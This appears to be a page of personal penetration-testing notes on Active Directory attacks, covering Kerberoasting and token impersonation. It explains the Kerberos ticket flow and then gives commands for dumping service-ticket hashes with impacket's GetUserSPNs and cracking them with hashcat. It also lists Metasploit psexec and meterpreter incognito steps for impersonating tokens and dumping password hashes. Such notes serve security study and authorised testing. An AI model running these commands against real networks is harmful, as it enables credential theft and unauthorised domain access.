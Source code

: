 ### Kerberoasting
How the Kerberos works
1. The user authenticates to the Domain Controller using the user’s password which Domain Controller knows.
2. The Domain Controller sends the user a Ticket Granting Ticket (TGT) Kerberos ticket. The TGT is presented to any DC to prove authentication for Kerberos service tickets.
3. The user opens up some service which causes the user’s workstation to lookup the Service Principal Name (SPN) for the user’s Exchange server.
4. Once the SPN is identified, the computer communicates with a DC again and presents the user’s TGT as well as the SPN for the resource to which the user needs to communicate.
5. The DC replies with the Ticket Granting Service (TGS) Kerberos service ticket.
6. The user’s workstation presents the TGS to the Exchange server for access.
7. Service connects successfully.

Toool: [GetUserSPNs](#https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py)

Once you have admin/standard user access, look for the supported SPNs and get TGS ticket for the SPN using GetUserSPNs
Get SPNs (dump hash)
```
python GetUserSPNs.py <domain\user:password> -dc-ip <DC_IP> -request
```

- Crack Kerberos hash with hashcat
```
hashcat -m 13100 hash_file.txt <dictionary.txt>
```

### Token Impersonation
- What are tokens
Temporary keys that allow you access to a system/network without having to provide credentials each time you access a file

- Types of tokens
+ Delegate: Created for logging into a machine or using Remote Desktop
+ Impersonate: 'Non-interactive' such as attaching a network drive or a domain logon script

- Token Impersonation with Incognio(meterpreter)
1. Run metasploit
2. use exploit/windows/smb/psexec
3. fill options (target 2 is good choice)
4. set correct payload
5. run
6. meterpreter:
```
meterpreter>load incognito (for check incognito module provide help)
meterpreter>list_tokens -u
meterpreter>impersonate_token <domain\\user> -> 2 slashes because char escaping
meterpreter>shell
> whoami
meterpreter>hashdump
```
meterpreter rev2self -> what is it????
